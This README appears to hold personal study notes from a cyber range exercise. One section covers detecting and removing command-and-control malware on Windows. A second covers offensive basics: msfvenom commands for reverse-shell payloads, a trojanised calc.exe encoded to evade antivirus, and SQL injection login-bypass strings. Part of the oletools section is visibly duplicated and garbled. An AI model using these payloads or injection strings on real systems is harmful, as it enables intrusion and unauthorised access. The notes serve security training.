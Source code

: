 <!-- ASD Programme Logo -->
<p align="center">
  <img src="https://github.com/simon-im-security/ASD-Live-Fire-Exchange-Program/blob/main/Australian_Signals_Directorate_program_logo.png" alt="ASD Programme Logo" width="300">
</p>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

---

<details>
<summary><strong>🌐 LFE 1 Bangalore - Malicious Detection</strong></summary>## Scenario: Command and Control (C2) Detection

- Gather logs using Event Viewer
- Identify malware via IOCs
- Remove malware and kill process
- Investigate network activity (C2)
- Block source and set firewall rules
- Remove persistence (startup/registry/scheduled tasks)

### 🔧 Tools Available

| Tool Name             | Functionality               |
|-----------------------|-----------------------------|
| CyberChef             | Data analysis and decoding  |
| DnSpy                 | .NET debugging/decompiling  |
| Eric Zimmerman Tools | Windows forensics           |
| Ghidra                | Reverse engineering         |
| oletools              | Office macro analysis       |
| Pestudio              | Static malware analysis     |
| Sysinternals          | Advanced monitoring         |
| WinSCP                | Secure file transfers       |

### 🧱 Step 1: Process Monitoring
```powershell
taskmgr

tasklist | findstr /i "powershell cmd python wscript cscript mshta wmic rundll32 regsvr32 schtasks bitsadmin"

taskkill /F /PID <PID>

eventvwr
```

### 🗓 Step 2: Scheduled Tasks
```powershell
taskschd

Get-ScheduledTask | ? {
  $_.TaskPath -notmatch "^\\Microsoft\\Windows" -and 
  ($_.Actions | % Execute | Out-String) -match "cmd|powershell|python|wscript|cscript|.bat|.vbs|.js|.py|mshta|rundll32|schtasks|bitsadmin"
}

Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

### 🧼 Step 3: Registry Startup
```powershell
regedit

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

### 🌐 Step 4: Network Communications
```powershell
netstat -bano
```

### 📁 Step 5: File Investigation
```powershell
Get-ChildItem -Path C:\Users -Include *.xlsx,*.docx,*.pdf -File -Recurse -ErrorAction SilentlyContinue
```

</details>

---

<details>
<summary><strong>🌋 LFE 2 Jakarta - Multi-Stage Malware & Analysis</strong></summary>

### 🛠 Topics Covered
- Office macro analysis with oletools
- Payload creation using msfvenom
- File encryption via OpenSSL
- Network inspection with Wireshark
- Basic SQL injection testing

###### 🔎 Macro Analysis with `oletools`

`oletools` is a Python-based toolset for analysing Microsoft OLE2 files (e.g. Office documents). It helps detect malicious macros, extract metadata, and uncover indicators of compromise.

#### 🔧 Common Tools & Flags:
```bash
olevba -a suspicious.doc      # Full analysis
olevba -c suspicious.doc      # Extract macro code only
olevba --decode suspicious.doc # Decode obfuscated content
olevba --json suspicious.doc  # Output in JSON

mraptor suspicious.doc        # Detect risknts). It helps detect malicious macros, extract metadata, and uncover indicators of compromise.

#### 🔧 Common Tools & Flags:
```bash
olevba -a suspicious.doc      # Full analysis
olevba -c suspicious.doc      # Extract macro code only
olevba --decode suspicious.doc # Decode obfuscated content
olevba --json suspicious.doc  # Output in JSON

mraptor suspiciota --json suspicious.doc

oleid suspicious.doc          # File structure and risk features
oleid --json suspicious.doc

oleobj -e -d output suspicious.doc # Extract embedded OLE objects
rtfobj -d output suspicious.rtf    # Extract objects from RTF
```

### 💣 Payload Crafting with `msfvenom`

`msfvenom` combines `msfpayload` and `msfencode`, allowing you to create encoded payloads in various formats for different platforms.

#### 🧪 Command Structure:
```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output> [-e <encoder>] [-i <iterations>] [-x <template.exe>]
```

#### 🧾 Flag Breakdown:
- `-p`: Payload type (e.g., `windows/meterpreter/reverse_tcp`)
- `LHOST`: Attacker IP to receive the connection
- `LPORT`: Listener port
- `-f`: Output format (e.g., `exe`, `elf`, `asp`, `raw`, `psh`)
- `-o`: Output filename
- `-e`: Encoder (e.g., `x86/shikata_ga_nai`)
- `-i`: Number of encoding iterations
- `-x`: Inject into a legitimate executable (trojanise)

#### 📦 Common Formats:
- `exe`: Windows executables
- `elf`: Linux binaries
- `psh`: PowerShell commands
- `raw`, `asp`, `war`, `vbscript`, `bash`, `c`, etc.

#### 🔁 Encoders:
Encoders help obfuscate payloads to evade signature-based AV:
```bash
msfvenom -l encoders
```
Example encoder: `x86/shikata_ga_nai`

#### 🧰 Examples:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 -f exe -o payload.exe
```
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 -f exe -x C:\Windows\System32\calc.exe -o mal.exe -e x86/shikata_ga_nai -i 3
```

### 🔐 File Encryption with OpenSSL
```powershell
openssl.exe enc -aes-256-cbc -base64 -in "C:\Users\cyberuser\Desktop\Files\Pass.txt" -out "C:\Users\cyberuser\Desktop\Pass.enc" -K 000001234567890ABCDEFABCDEF -iv 0
```

### 📊 Wireshark Filters
```wireshark
frame.number == 1437
frame.number >= 1434 and frame.number <= 1440
tcp.analysis.retransmission
frame.number == 1437 and tcp.analysis.retransmission
```

### 🔢 SQL Injection Basics
**Used on login forms where inputs are not sanitised**

#### Sample Username/Password Inputs:
```plaintext
Username: ' OR 1=1;--
Password: (blank or anything)

Username: admin' --
Password: anything

Username: ' OR 'a'='a';--
Password: anything

Username: " OR ""="
Password: anything
```

#### Underlying Query Logic:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```
Injecting:
```sql
SELECT * FROM users WHERE username = '' OR 1=1;--' AND password = '';
```

#### SQL Clause Order Reference:
1. `SELECT`
2. `FROM`
3. `WHERE`
4. `GROUP BY` / `HAVING`
5. `ORDER BY`

#### SQL Injection Prevention:
- Use prepared statements / parameterised queries
- Sanitize user inputs (strip/escape)
- Apply least privilege to DB accounts
- Log and alert on suspicious queries

</details>

